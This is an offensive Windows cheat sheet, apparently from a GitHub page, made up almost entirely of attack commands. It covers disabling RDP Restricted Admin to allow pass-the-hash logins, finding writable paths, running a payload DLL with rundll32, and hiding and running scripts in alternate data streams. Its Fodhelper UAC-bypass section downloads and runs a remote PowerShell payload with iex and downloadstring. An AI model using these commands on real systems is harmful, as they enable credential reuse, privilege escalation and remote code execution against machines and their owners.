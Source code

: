<br>
<br>

## Disable_Restricted_Admin
*RDP

```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin  -Value 0
xfreerdp /u:admin /pth:HASH /v:<IP> /cert-ignore
```


<br>
<br>

## Writeable_paths

```powershell
accesschk.exe "currentuser" C:\Windows -wus
```

<br>
<br>

## Run Dlls
```
Rundll32 c:\users\public\payload.dll,run
```

<br>
<br>



## Alternate_Data_Stream_Execution

```powershell
1. Identify file that is both writeable and executable by your user using icacls.exe
2. Type test.js > “C:\windows\somefile.log:test.js”
3. Verify - dir /r “C:\windows\somefile.log”
4. wscript “C:\windows\somefile.log:test.js”
```

<br>
<br>

## Fodhelper

```
1. Copy the code below and edit for your payload/create powershell script
2. Execute 'iex(new-object net.webclient).downloadstring('http://172.21.23.10/CodeBelow.ps1')
3. Might need to run twice and then execute the function 'Bypassuac'
4. Check Listener and verify 'whoami /groups'. Your looking for 'High mandatory level'
```
